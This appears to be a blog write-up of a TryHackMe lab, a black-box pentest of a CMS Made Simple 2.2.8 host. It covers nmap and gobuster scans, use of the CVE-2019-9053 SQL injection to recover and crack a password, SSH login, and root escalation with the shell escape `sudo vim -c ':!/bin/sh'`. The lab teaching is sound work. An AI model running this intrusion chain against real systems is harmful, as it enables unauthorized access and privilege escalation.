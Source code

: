 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

My task is to breach a website hosted on this IP: `10.10.75.135`. Other than the address, I know absolutely nothing about this system - which makes this is a black box pentest, simulating a real-life attack.

Like always, my first step is always to begin by scanning the IP with nmap. Within my scan, I am also specifying that I want the output to be stored in a folder meant specifically for this exercise. This helps with organization. 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
Nmap scan report for 10.10.75.135
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)

PORT 	STATE SERVICE VERSION
21/tcp   open  ftp 	vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|  	Connected to ::ffff:10.6.25.18
|  	Logged in as ftp
|  	TYPE: ASCII
|  	No session bandwidth limit
|  	Session timeout in seconds is 300
|  	Control connection is plain text
|  	Data connections will be plain text
|  	At session startup, client count was 2
|  	vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT

80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 10 16:29:56 2025 -- 1 IP address (1 host up) scanned in 53.75 seconds
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Gobuster does not come pre-installed on Kali machines, so to get the tool you have to install it:

```bash
sudo apt install gobuster
```

Furthermore, in order to use Gobuster, you must have a wordlist to enmurate off of. There are plenty online, but the one I used is located here: [directory-list-2.3-medium](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

So using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another accessible site resource: `/simple`. It was able to locate this path for me in a matter of seconds.

Navigating to /simple brings me to a boilerplate page meant for developers who are working with CMS Made Simple (CMSMS). CMSMS is a FOSS content-management system that makes it easy for developers by providing an accessible and "simple" web-based development/administration area to work with. Software that aims to streamline/simplify can often include vulnerabilities because of the fact that these applications are made to be readily accessible. However, most of the time these vulnerabilite are very easy to avoid - the real issue is human laziness and our inability to pay attention to things.

The CMSMS version is `2.2.8`. The version being out in the open like this makes my life a lot easier. 

![CMS](/security.github.io/images/simple/cms_simple.png)

Using `searchsploit`, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit: **[CVE-2019-9053](https://www.exploit-db.com/exploits/46635)**.

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
